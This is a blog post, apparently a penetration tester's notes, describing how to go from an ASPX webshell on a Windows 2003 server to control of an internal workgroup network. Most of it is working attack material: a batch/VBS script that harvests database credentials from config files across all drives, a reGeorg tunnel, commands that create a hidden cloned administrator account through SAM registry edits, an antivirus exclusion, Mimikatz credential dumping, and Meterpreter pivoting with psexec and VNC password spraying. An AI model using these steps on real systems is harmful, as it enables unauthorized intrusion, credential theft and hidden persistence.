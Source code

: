 ```yaml
---
layout:     post
title:      Inside network in workgroup
date:       2016-04-10
summary:    from one windows 2003 to inside network privilege
categories: web
thumbnail: ??
tags:
 - inside network
 - windows
 - aspx
 - 工作组

---
```

### 0x01 Base
    got a webshell of xxx.xxx.xxx.101(run aspx)  
    don't know how to get system shell from this webshell  
    there exists not only one site on xxx.xxx.xxx.101  
    find xxx.xxx.xxx.101 has another address 10.10.10.101

### 0x02 Steps  

#### 1>search web.config on all sites to find sa and sapass

```
1.bat
@echo off
goto :main
这是注释：(for /f "delims="的作用为取消默认的以空格等符号作为分割符
dir /s 实现了linux中的find功能，for /r path %%i in (web.conf?g) do ... 也可以实现find功能，但是自己实现时发现for /r path ...中的path只能是一个具
体路径，不能是变量，这样就不能遍历全部磁盘了)
:main
set str=c d e f g h i j k l m n o p q r s t u v w x y z 
echo  当前硬盘的分区有： 
for %%i in (%str%) do (
if exist %%i: (echo %%i:
for /f "delims=" %%j in ('dir /b /s %%i:\web.conf?g %%i:\global.a?a %%i:\wp-config.p?p %%i:\setting.p?p %%i:\database.p?p %%i:\config.p?p %%i:
\config.ini.p?p %%i:\conn.p?p %%i:\connect.p?p %%i:\conn.a?p %%i:\conn.a?a') do (
echo *****filepath***** >> tmp.txt
echo %%j >> tmp.txt
type "%%j" >> tmp.txt
echo. >> tmp.txt
echo ---------------------------- >> tmp.txt
echo 我是美丽的分割线 >> tmp.txt
echo ---------------------------- >> tmp.txt
echo. >> tmp.txt
)
)
)

2.vbs
Set ws = CreateObject("Wscript.Shell")
ws.run "cmd /c 1.bat",vbhide

cscript 2.vbs
```

##### or download from:`https://github.com/3xp10it/bat/tree/master/get_web_config_bat`

#### [\+] find sa and sapass of 10.10.10.1,but as a inside network pc,3389 is not allowed from outside

#### 2>upload a tunnel.aspx(from reGeorg) to  xxx.xxx.xxx.101
```
[python] reGeorg.py -p 1080 -u https://xxx.xxx.xxx.101/xx/tunnel.aspx
```

#### 3>use sa pri in chopper execute:  
```
net user tmp /add & net localgroup administrators tmp /add  
net localgroup "remote desktop users" tmp /add
```

#### 4>runas admin->cmd-> mstsc /console /v:10.10.10.1 -admin
```
[10.10.10.1:3389 with tmp account]:  
add a superhide administrator account cloned from administrator account:  
net user tmp$ /add & net localgroup administrators tmp$ /add
regedit->local machine->sam->account->name
export 0x111<assume as administrator's> as admin.reg
export 0x222<assume as tmp$'s> as user.reg
export account->name->tmp$ as tmp.reg
copy /F value from admin.reg to user.reg
net user tmp$ /del
import tmp.reg and user.reg
delete admin.reg,user.reg,tmp.reg
logoff

[10.10.10.1:3389 with tmp$ account]:  
net user tmp /del
open setup of eset to add exclude file path
copy \\tsclient\mimikatz\ exclude_folder

[run mimikatz]:  
privilege::debug
sekurlsa::logonpasswords
```

#### 5>upload a meterpreter payload to 10.10.10.1
```
meterpreter>run get_local_subnets
            10.0.0.0/255.0.0.0
meterpreter>background
(handler)>route add 10.0.0.0 255.0.0.0 1
(handler)>route print
(handler)>use auxiliary/scanner/portscan/tcp
set ports 25,110,21,80,8080,443,1433,3606,3389,5900
set rhosts 10.10.10.0/24
set threads 24
exploit

smb:
(handler)use exploit/windows/smb/psexec
(handler)set rhosts 10.10.10.0/24
(handler)set username and pass from sekurlsa::logonpasswords in mimikatz before
or the password find by mimikatz in msf:
load  mimikatz
mimikatz_command -f sekurlsa::searchPasswords
(handler)exploit
enter other pc by smbpass
use mimikatz to find morepassword
search regedit to find morevncpassword

vnc:
search winvnc password in 10.10.10.1:
if ini file with password was delete,then open regedit search "password" 
F3+F3+F3...
find vnc password
use vnccrack tool in cain to carck it
get vncpassword
use auxiliary/scanner/vnc/vnc_login
set rhosts 10.10.10.0/24
set password vpnpassword
exploit
enter other pc by vnc password
use mimikatz to find morepassword
search regedit to find morevncpassword

smb&vnc
use morepassword in exploit/windows/smb/psexec
use morevncpassword in auxiliary/scanner/vnc/vnc_login



```
